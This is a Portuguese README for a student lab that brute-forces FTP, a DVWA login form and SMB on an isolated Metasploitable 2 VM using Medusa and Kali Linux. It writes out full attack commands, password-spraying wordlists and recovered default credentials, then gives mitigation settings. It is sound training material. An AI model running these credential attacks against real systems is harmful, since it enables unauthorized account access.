








# 🛡️ Laboratório de Segurança Ofensiva: exploração do Metasploitable 2 & DVWA

[](LICENSE)
[](https://python.org)
[](https://github.com)
[](LICENSE)

> **⚠️ AVISO LEGAL:** Todo o conteúdo deste repositório foi produzido exclusivamente em ambiente controlado e isolado, com fins educacionais. A execução de ataques sem autorização explícita é crime (Lei nº 12.737/2012 — Lei Carolina Dieckmann, e art. 154-A do Código Penal Brasileiro). **Nunca replique estas técnicas em sistemas reais sem permissão.**

---

## 📋 Índice

- [Visão Geral](#-visão-geral)
- [Ambiente de Laboratório](#-ambiente-de-laboratório)
- [O que é Força Bruta?](#-o-que-é-força-bruta)
- [Ferramentas Utilizadas](#-ferramentas-utilizadas)
- [Cenário 1 — Ataque FTP (Metasploitable 2)](#-cenário-1--ataque-ftp-metasploitable-2)
- [Cenário 2 — Força Bruta Web (DVWA)](#-cenário-2--força-bruta-web-dvwa)
- [Cenário 3 — Password Spraying em SMB](#-cenário-3--password-spraying-em-smb)
- [Wordlists Utilizadas](#-wordlists-utilizadas)
- [Medidas de Mitigação](#-medidas-de-mitigação)
- [Referências](#-referências)

---


## 🌐 Visão Geral

Este projeto documenta um laboratório prático de **segurança ofensiva**, simulando ataques de força bruta em diferentes serviços usando o **Kali Linux** e o **Medusa** como ferramentas principais. O objetivo não é invadir sistemas — é **entender como os atacantes pensam** para, assim, construir defesas mais robustas.

---

## 🖥️ Ambiente de Laboratório

### 🏗️ Arquitetura do Laboratório

```md
┌─────────────────────┐         ┌──────────────────────────┐
│   Kali Linux        │◄───────►│   Metasploitable2        │
│   (Atacante)        │  Host-  │   (Alvo — FTP/SMB)       │
│   10.10.10.10       │  Only   │   10.10.10.20            │
└─────────────────────┘         └──────────────────────────┘
         │                                    │
         │                        ┌───────────┴─────────────┐
         │                        │  DVWA (Web App)         │
         └────────────────────────│  http://10.10.10.20/dvwa│
                                  └─────────────────────────┘
```


#### Configuração

| Componente       | Configuração                        |
|------------------|-------------------------------------|
| Hypervisor       | KVM/QEMU                            |
| Rede             | Host-Only Adapter (seclab-isolated) |
| VM Atacante      | Kali Linux — 2 vCPUs / 4GB RAM      |
| VM Alvo          | Metasploitable2 — 1 vCPU / 512MB RAM |
| Isolamento       | ✅ Sem acesso à internet durante os testes |

#### 🌐 Topologia de Rede Virtual
O cenário utiliza uma rede isolada do tipo `seclab-isolated` (sem NAT para a internet) para garantir que nenhum tráfego de exploração saia do host local.

**Configuração do XML da Rede (`seclab-isolated.xml`):**
```xml
<network>
  <name>seclab-isolated</name>
  <bridge name='virbr-iso' stp='on' delay='0'/>
  <mac address='52:54:00:be:ef:01'/>
  <ip address='10.10.10.1' netmask='255.255.255.0'>
    <dhcp>
      <range start='10.10.10.100' end='10.10.10.200'/>
      <!-- IPs fixos para cada VM do laboratório -->
      <host mac='52:54:00:be:ef:10' name='kali-attacker'           ip='10.10.10.10'/>
      <host mac='52:54:00:be:ef:20' name='ms2-target'              ip='10.10.10.20'/>
    </dhcp>
  </ip>
</network>
```

* **Comandos de ativação:**
    ```bash
    virsh net-define seclab-isolated.xml
    virsh net-start seclab-isolated
    virsh net-autostart seclab-isolated
    ```

---

### 🛠️ Stack de Ferramentas e Protocolos

| Categoria | Ferramenta | Aplicação |
| :--- | :--- | :--- |
| **Virtualização** | KVM / Virt-Manager | Gestão das máquinas alvo e atacante. |
| **Reconhecimento** | Nmap | Mapeamento de portas e fingerprinting de serviços. |
| **Brute Force** | Medusa | Ataques modulares e paralelos (FTP, SSH, SMB, HTTP). |
| **Enumeração SMB** | Enum4linux-ng | Extração de SIDs, shares e listas de usuários. |

---

## 🧠 O que é Força Bruta?

Um **ataque de força bruta** (*brute force attack*) é uma técnica de descoberta de credenciais que funciona de forma simples e implacável: **tentar todas as combinações possíveis** de usuário e senha até que uma funcione.

Pense assim: se você perdeu o cadeado de 4 dígitos da sua mala, pode tentar de `0000` a `9999` — são 10.000 tentativas, mas você **certamente** vai achar a combinação certa. Ataques de força bruta fazem exatamente isso, mas com velocidade computacional.

### Variantes do Ataque

| Tipo | Descrição | Quando usar |
|------|-----------|-------------|
| **Brute Force Puro** | Testa todas as combinações possíveis | Senhas curtas/simples |
| **Dictionary Attack** | Usa uma lista de senhas comuns (wordlist) | Senhas em linguagem humana |
| **Password Spraying** | Testa 1 senha contra muitos usuários | Evitar bloqueio de conta |
| **Credential Stuffing** | Usa credenciais vazadas de outros serviços | Reuso de senhas |

---

## 🛠️ Ferramentas Utilizadas

### Medusa

O **Medusa** é uma ferramenta de força bruta paralela e modular, projetada para ser rápida e confiável. Suporta dezenas de protocolos: FTP, SSH, HTTP, SMB, RDP, MySQL, e muitos outros.

**Sintaxe básica:**
```bash
medusa -h <HOST> -u <USUÁRIO> -P <WORDLIST> -M <MÓDULO> [opções]
```

| Parâmetro | Descrição |
|-----------|-----------|
| `-h` | Host alvo |
| `-H` | Arquivo com lista de hosts |
| `-u` | Usuário único |
| `-U` | Arquivo com lista de usuários |
| `-p` | Senha única |
| `-P` | Arquivo com lista de senhas (wordlist) |
| `-M` | Módulo/protocolo (ftp, ssh, smb, http...) |
| `-t` | Número de threads paralelas |
| `-f` | Para no primeiro sucesso |
| `-v 6` | Verbosidade máxima (debug) |

### Outras Ferramentas do Lab

| Ferramenta | Função |
|------------|--------|
| **Nmap** | Reconhecimento e descoberta de serviços |
| **Enum4linux** | Enumeração de usuários SMB |
| **Hydra** | Alternativa ao Medusa (comparativo) |
| **BurpSuite** | Interceptação de requisições HTTP |

---

## 🎯 Cenário 1 — Ataque FTP (Metasploitable 2)

### Contexto

O **FTP ([File Transfer Protocol](https://www.rfc-editor.org/rfc/rfc959))** é um protocolo usado para enviar e receber arquivos entre um cliente e um servidor em redes de computadores. Ele permite fazer download e upload de dados, sendo muito usado para compartilhar arquivos grandes de forma prática e integrada. O problema? Por padrão, ele transmite credenciais em **texto puro**, sem criptografia. O Metasploitable 2 roda um servidor FTP com credenciais fracas, o que pode ser observado nas etapas de reconhecimento e ataque descritos a seguir.

### Fase 1: Reconhecimento

```bash
# Verificar se o FTP está ativo
nmap -p 21 -sV 10.10.10.20
```

**Saída esperada:**
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```

<figure>
  
  <figcaption align="center"><b>Figura 01.</b> Fase de reconhecimento de serviços utilizando NMAP.</figcaption>
</figure>

> ⚠️ **Nota:** O vsftpd 2.3.4 tem um backdoor ([CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)). Neste cenário, focamos apenas no ataque de força bruta, não na exploração do backdoor.

### Fase 2: Criando a Wordlist

```bash
# Criar wordlist simples para o teste
cat << 'EOF' > wordlist_senhas.txt
123456
password
admin
root
toor
msfadmin
usuario
12345
abc123
letmein
EOF

cat << 'EOF' > wordlist_usuarios.txt
root
admin
msfadmin
user
ftp
test
EOF
```


### Fase 3: Executando o Ataque

```bash
# Ataque básico com usuário e wordlist de senhas
medusa -h 10.10.10.20 \
       -u msfadmin \
       -P wordlist_senhas.txt \
       -M ftp \
       -t 5 \
       -f \
       -v 4
```

```bash
# Ataque com lista de usuários E lista de senhas
medusa -h 10.10.10.20 \
       -U wordlist_usuarios.txt \
       -P wordlist_senhas.txt \
       -M ftp \
       -t 3 \
       -f
```

### Saída Esperada (Sucesso)

```
ACCOUNT FOUND: [ftp] Host: 10.10.10.20 User: msfadmin Password: msfadmin [SUCCESS]
```

<figure>
  
  <figcaption align="center"><b>Figura 02.</b> Fase de execução de ataque ao serviço FTP.</figcaption>
</figure>

### Fase 4: Validando o Acesso

```bash
# Conectar via FTP com as credenciais encontradas
ftp 10.10.10.20
# Login: msfadmin
# Password: msfadmin

# Dentro do FTP:
ls -la
pwd
```

---

## 🌍 Cenário 2 — Força Bruta Web (DVWA)

### Contexto

O **DVWA (Damn Vulnerable Web Application)** é uma aplicação web intencionalmente vulnerável, criada para treinamento em segurança. A ideia neste cenário é a de simular um ataque de força bruta no formulário de login, algo extremamente comum em aplicações reais.

### Fase 1: Preparar o DVWA

A partir de um navegador do Kali, verifique se a aplicação está em execução:
```
http://10.10.10.20/dvwa
```

### Fase 2: Analisar a Requisição HTTP

Antes de realizar qualquer ataque, precisamos entender como o formulário funciona. Inspecione manualmente com o devtools, recurso do navegador, a partir da seção network do mesmo:

<figure>
  
  <figcaption align="center"><b>Figura 03.</b> Inspeção de requisições.</figcaption>
</figure>

**Identificar os parâmetros-chave:**
- Campo de usuário: `username`
- Campo de senha: `password`
- Botão: `Login`

### Fase 3: Executando com Medusa (HTTP GET Form)

```bash
medusa -h 10.10.10.20 \
       -U user.txt \
       -P senhas.txt \
       -M http \
       -m PAGE:'/dvwa/login.php' \
       -m FORM:'username=^USER^&password=^PASS^&Login=Login' \
       -m PAGE:'FAIL=Login' \
       -t 6 \
```

<figure>
  
  <figcaption align="center"><b>Figura 04.</b> Execução de ataque de força bruta via HTTP FORM.</figcaption>
</figure>

---

## 🔗 Cenário 3 — Password Spraying em SMB

### Contexto

O **SMB (Server Message Block)** é o protocolo de compartilhamento de arquivos do Windows. O **Password Spraying** é uma variante inteligente da força bruta: em vez de tentar muitas senhas para um usuário (o que aciona bloqueios), tenta-se **uma única senha em muitos usuários**. Mais lento, mais furtivo.

### Fase 1: Enumeração de Usuários com Enum4linux

```bash
# Enumeração completa do SMB
enum4linux -a 10.10.10.20

# Foco na lista de usuários
enum4linux -U 10.10.10.20
```

**Exemplo de saída:**
```
 =========================== 
|    Users on 10.10.10.20 |
 =========================== 
user:[games] rid:[0x3f2]
user:[nobody] rid:[0x1f5]
user:[msfadmin] rid:[0x3e8]
user:[service] rid:[0x3f3]
user:[user] rid:[0x3f1]
```

<figure>
  
  <figcaption align="center"><b>Figura 05.</b> Exemplo de uso do ENUM4LINUX.</figcaption>
</figure>

Salvar a lista:
```bash
enum4linux -U 10.10.10.20 | grep "user:" | cut -d[ -f2 | cut -d] -f1 > smb_users.txt
```

### Fase 2: Password Spraying com Medusa

```bash
# Tentar senha comum em todos os usuários encontrados
medusa -h 10.10.10.20 \
       -U smb_users.txt \
       -p "password" \
       -M smbnt \
       -t 1 \
       -f \
       -v 4
```

```bash
# Spraying com lista pequena de senhas comuns
cat << 'EOF' > senhas_spray.txt
password
123456
Password1
Welcome1
Summer2024
msfadmin
EOF
```

<figure>
  
  <figcaption align="center"><b>Figura 06.</b> Exemplo de geração de wordlist.</figcaption>
</figure>


```bash
medusa -h 10.10.10.20 \
       -U smb_users.txt \
       -P senhas_spray.txt \
       -M smbnt \
       -t 1 \
       -v 4
```

<figure>
  
  <figcaption align="center"><b>Figura 07.</b> Execução de ataque ao serviço SMB.</figcaption>
</figure>

### Fase 3: Validar Acesso SMB

```bash
# Testar conexão SMB com credenciais encontradas
smbclient //10.10.10.20/tmp -U msfadmin
# Digitar a senha quando solicitado

# Listar compartilhamentos
smbclient -L //10.10.10.20 -U msfadmin
```

<figure>
  
  <figcaption align="center"><b>Figura 08.</b> Validação do ataque ao serviço SMB.</figcaption>
</figure>

---

## 📄 Wordlists Utilizadas

### Filosofia das Wordlists

Uma **wordlist eficaz** não é apenas uma lista gigante de senhas aleatórias: ela é uma lista estratégica, construída com base no perfil do alvo e em dados estatísticos reais de senhas vazadas.

### Wordlists Conhecidas (para referência)

| Wordlist | Tamanho | Fonte |
|----------|---------|-------|
| **rockyou.txt** | ~14 milhões | Vazamento RockYou (2009) |
| **SecLists** | Variado | GitHub/danielmiessler |
| **fasttrack.txt** | ~222 senhas | Incluída no Kali |

```bash
# Localizar wordlists no Kali
find /usr/share/wordlists -name "*.txt" | head -20

# Descompactar o rockyou (vem comprimido no Kali)
gunzip /usr/share/wordlists/rockyou.txt.gz
```

---

## 🛡️ Medidas de Mitigação

Entender o ataque é apenas metade do trabalho. A parte mais importante é saber **como se defender**. Cada cenário expõe vulnerabilidades específicas com soluções correspondentes.

### Contra Força Bruta em Geral

| Medida | Implementação | Eficácia |
|--------|--------------|----------|
| **Bloqueio de conta** | Bloquear após N tentativas | ⭐⭐⭐⭐ |
| **Rate limiting** | Limitar req/minuto por IP | ⭐⭐⭐⭐⭐ |
| **CAPTCHA** | Desafio humano após falhas | ⭐⭐⭐ |
| **MFA / 2FA** | Segundo fator de autenticação | ⭐⭐⭐⭐⭐ |
| **Senhas fortes** | Política de complexidade | ⭐⭐⭐⭐ |
| **Monitoramento** | SIEM, alertas de tentativas | ⭐⭐⭐⭐ |

### Contra FTP Especificamente

```bash
# Configuração no /etc/vsftpd.conf
max_per_ip=3                    # Máximo de conexões por IP
max_login_fails=3               # Tentativas antes de desconectar
delay_failed_login=10          # Delay em segundos após falha

# MELHOR SOLUÇÃO: Migrar para SFTP (FTP sobre SSH)
# Habilitar no sshd_config:
Subsystem sftp /usr/lib/openssh/sftp-server
```

### Contra Força Bruta Web

```nginx
# Nginx — Rate Limiting
limit_req_zone $binary_remote_addr zone=login:10m rate=5r/m;

server {
    location /login {
        limit_req zone=login burst=3 nodelay;
    }
}
```

```python
# Django — Django-axes para bloqueio automático
# settings.py
INSTALLED_APPS += ['axes']
AXES_FAILURE_LIMIT = 5
AXES_COOLOFF_TIME = 1  # hora
AXES_LOCK_OUT_AT_FAILURE = True
```

### Contra Password Spraying em SMB

```bash
# Desabilitar SMBv1 (altamente vulnerável)
# Windows:
Set-SmbServerConfiguration -EnableSMB1Protocol $false

# Linux (smb.conf)
[global]
min protocol = SMB2
```

```
# Política de Grupo (Windows AD)
Configuração: Fine-Grained Password Policy
- Tentativas antes do bloqueio: 5
- Duração do bloqueio: 30 minutos
- Contador zerado após: 30 minutos
```

### Pirâmide de Defesa

```
                    ▲
                   /|\
                  / | \
                 /  |  \
                / MFA\   ← Primeiro fator de defesa
               /-------\
              / Senhas   \
             /  Fortes    \ ← Complexidade + rotação
            /─────────────\
           /  Rate Limiting \ ← Limitar tentativas
          /   + Bloqueio      \
         /────────────────────\
        /    Monitoramento      \ ← SIEM, logs, alertas
       /      e Auditoria        \
      /────────────────────────────\
     /    Segmentação de Rede      \ ← Isolamento de serviços
    /──────────────────────────────\
```

---

## 📚 Referências

- [Documentação oficial do Medusa](http://foofus.net/goons/jmk/medusa/medusa.html)
- [OWASP — Brute Force Attack](https://owasp.org/www-community/attacks/Brute_force_attack)
- [Metasploitable 2 — Rapid7](https://docs.rapid7.com/metasploit/metasploitable-2/)
- [SecLists — Daniel Miessler](https://github.com/danielmiessler/SecLists)
- [NIST SP 800-63B — Diretrizes de Autenticação Digital](https://pages.nist.gov/800-63-3/sp800-63b.html)
- [Lei nº 12.737/2012 — Crimes Cibernéticos no Brasil](https://www.planalto.gov.br/ccivil_03/_ato2011-2014/2012/lei/l12737.htm)

---

## 👨‍💻 Sobre o Projeto

Este repositório foi desenvolvido como entrega do desafio prático de **Segurança Ofensiva** da [DIO — Digital Innovation One](https://www.dio.me), com foco em:

- Ataques de força bruta e suas variantes
- Uso do Kali Linux como plataforma de auditoria
- Documentação técnica de qualidade como portfólio profissional
- Cultura de **responsabilidade ética** em segurança da informação

---


